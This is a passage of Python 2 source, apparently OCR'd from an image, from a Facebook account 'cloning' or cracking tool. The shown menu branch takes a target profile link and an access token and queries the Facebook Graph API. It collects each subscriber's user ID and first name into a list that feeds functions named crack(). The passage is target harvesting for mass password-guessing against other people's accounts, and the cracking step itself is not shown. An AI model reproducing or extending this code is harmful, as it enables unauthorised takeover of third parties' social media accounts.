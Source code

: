             print '\033[1;92m   TOTAL IDS  : %s' % len(id)

    elif select == '2':

        os.system('clear')

        print logo

        print ''

        idt = raw_input(' \033[0mID LINK : ')

        try:

            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)

            q = json.loads(r.text)

            os.system('clear')

            print logo

            print ''

            print '  Cloning from: ' + q['name']

        except KeyError:

            print '\tInvalid id link OR token'

            print ''

            raw_input(' Press enter to back')

            crack()

        r = requests.get('https://graph.facebook.com/' + idt + '/subscribers?access_token=' + token + '&limit=999999')

        z = json.loads(r.text)

        for i in z['data']:

            uid = i['id']

            na = i['name']

            nm = na.rsplit(' ')[0]

            id.append(uid + '|' + nm)

    elif select == '0':

        menu()

    else:

        print ''

        print '\tSelect valid option'

        print ''

        crack_select()
